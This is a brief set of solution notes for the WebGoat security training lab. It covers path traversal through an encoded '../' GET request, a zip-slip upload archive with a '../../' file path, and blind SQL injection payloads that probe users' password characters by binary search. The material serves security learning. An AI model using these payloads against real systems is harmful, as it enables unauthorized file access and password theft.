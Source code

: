````title="GET Request"
GET http://localhost:9000/WebGoat/PathTraversal/random-picture?id=%2e%2e%2f%2e%2e%2fpath-traversal-secret
````

### WebGoat  SQL (Path Traversal) - Solution for exercise 7:

````bash title="Terminal"
cd /tmp/webgoat125something
cp /location-of-some/pic.jpg /home/user/.webgoat/PathTraversal/webgoat/webgoat.jpg
zip goat.zip ../../home/user/.webgoat/PathTraversal/webgoat/webgoat.jpg
````

Then, upload the file via the WebGoat upload page.

### Interesting SQL Injection queries I used to get necessary info from the DB:

````title="Using EXISTS()"
' or EXISTS(SELECT * FROM users);
devon' and exists(select * from users) and '1'='1
````
````title="Using Binary Search"
Tom' and length(password)>0;--
tom' AND ascii(substring(password,1,1)) > 60;--
Tom' and length(user)>5;--
Tom' and ascii(substr(user,2,2))=65;--
Tom' and right(email,3)='com
````
